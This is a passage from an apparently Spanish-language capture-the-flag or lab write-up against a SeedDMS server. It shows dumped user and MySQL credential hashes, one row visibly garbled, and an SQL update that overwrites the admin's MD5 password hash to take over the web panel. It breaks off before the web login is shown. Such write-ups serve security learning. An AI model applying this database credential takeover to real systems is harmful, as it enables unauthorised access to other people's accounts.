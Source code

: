 ```sql
+----+-------+----------------------------------+
| id | login | pwd                              |
+----+-------+----------------------------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a |
|  2 | guest | NULL                             |
+----+-------+----------------------------------+
```
Vemos que hay una entrada para el usuario admin en la tabla. El password parece estar hasheado con md5.

-------------------------------------------------------------------------------

Por otra parte miramos la base de datos mysql y vemos qué contiene la tabla users:

```sql
MySQL [mysql]> select user, authentication_string from user;
```

```sql
+------------------+------------------------------------------------------------------------+
| user             | authentication_string                                                  |
+------------------+------------------------------------------------------------------------+
-3B<;yrVDMbVKA4tdgskyi7u9wDeaAycRfWaDu6XxE5/ppf7 |
| seeddms          | $A$005$d 5=B}x{F -_E-bpSftyzk6e7NqJ6DWIL2AzzxKxSahPoRqZvG9Bej/c7 |
| debian-sys-maint | $A$005$woD"j%!04QZ{m3KTkvDc7crnFw9G0Fyx3MjeWXsjoD0EMEhynazfkX.1 |
| mysql.infoschema | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.session    | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.sys        | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| root             |                                                                        |
| seeddms          | $A$005$A@]@yCjderspsKBEWb77PQUG8HUGhs0wW9nN5HFf1c5yK41et/8Uz9a4kq4 |
| seedms           | $A$005$':zLXtaKw49H`6`PImejdBmtks1FgLOk2Xs9AuoeYwxdSRsy9NBNHTBJt1 |
+------------------+------------------------------------------------------------------------+
9 rows in set (0,002 sec)
```

-------------------------------------------------------------------------------

Como hemos encontrado una entrada para las credenciales de admin, vamos a modificarlas a ver si podemos entrar en el panel de autenticación que hemos encontrado antes.
Creamos un password sencillo, y obtenemos el hash en el mismo formato que hemos visto antes.

```bash
> echo -n "123456" | md5sum 
e10adc3949ba59abbe56e057f20f883e  -
```

Nótese el parámetro -n para que no añada el newline al final del echo, pues afectaría al hash generado.

```sql
> MySQL [seeddms]> update tblUsers set pwd="e10adc3949ba59abbe56e057f20f883e" where id=1;
```

-------------------------------------------------------------------------------

Y ahora lo probamos en la web:

